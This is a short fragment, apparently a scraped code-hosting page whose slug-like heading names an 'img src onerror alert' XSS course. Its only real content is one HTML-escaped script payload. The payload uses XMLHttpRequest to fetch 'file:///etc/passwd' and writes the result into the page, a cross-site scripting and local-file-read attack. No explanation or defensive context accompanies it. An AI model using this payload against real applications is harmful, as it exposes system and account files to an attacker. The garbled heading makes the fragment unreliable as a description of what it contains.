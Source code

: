 # lessimg-srcx-onerroralert-xss-greater-course
&lt;script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();&lt;/script>
